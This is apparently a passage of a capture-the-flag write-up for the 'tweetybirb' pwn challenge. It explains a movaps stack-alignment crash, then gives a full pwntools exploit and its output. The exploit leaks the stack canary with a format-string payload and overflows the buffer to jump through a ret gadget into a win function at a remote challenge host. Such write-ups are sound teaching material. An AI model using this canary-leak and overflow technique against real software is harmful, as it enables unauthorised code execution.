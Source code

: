 ```
0040| 0x7ffe61ebc350 --> 0x0 
0048| 0x7ffe61ebc358 --> 0x0 
0056| 0x7ffe61ebc360 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007f48d0fa47c3 in do_system (line=0x402008 "cat /home/user/flag.txt") at ../sysdeps/posix/system.c:148
```

We crash at `movaps` inside `system`. Newer libc implementations use `movaps` instructions,
which require 16-byte stack alignment. The x86-64 System V ABI guarantees 16-byte stack
alignment before a `call`, but this overflow doesn't respect that :) The fix is simple, 
before jumping to our function, jump to a `ret` instruction to pop another 8 bytes.
A `ret` can be found in `main` at offset 128.

Final script:
```py
from pwn import *

context.log_level = 'debug'

elf = ELF("./tweetybirb")

r = remote("143.198.184.186", 5002)
r.recvline()
r.sendline(b"%15$lx")
canary = int(r.recvline().strip(), 16)
log.success(f"{canary=}")
r.recvline()
r.sendline(b"A" * 72 + p64(canary) + b"A" * 8 + p64(elf.sym['main'] + 128) + p64(elf.sym['win']))
r.interactive()
```

```
➜  tweety python3 exploit.py
[*] '/home/toma/tweety/tweetybirb'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 143.198.184.186 on port 5002: Done
[DEBUG] Received 0xd3 bytes:
    b"What are these errors the compiler is giving me about gets and printf? Whatever, I have this little tweety birb protectinig me so it's not like you hacker can do anything. Anyways, what do you think of magpies?\n"
[DEBUG] Sent 0x7 bytes:
    b'%15$lx\n'
[DEBUG] Received 0x3a bytes:
    b'1e7a45444f606100\n'
    b'hmmm interesting. What about water fowl?\n'
[+] canary=2196143927988347136
[DEBUG] Sent 0x69 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  00 61 60 4f  44 45 7a 1e  │AAAA│AAAA│·a`O│DEz·│
    00000050  41 41 41 41  41 41 41 41  72 12 40 00  00 00 00 00  │AAAA│AAAA│r·@·│····│
    00000060  d6 11 40 00  00 00 00 00  0a                        │··@·│····│·│
    00000069
[*] Switching to interactive mode
[DEBUG] Received 0x54 bytes:
    b'kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}\n'
kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}
[*] Got EOF while reading in interactive
```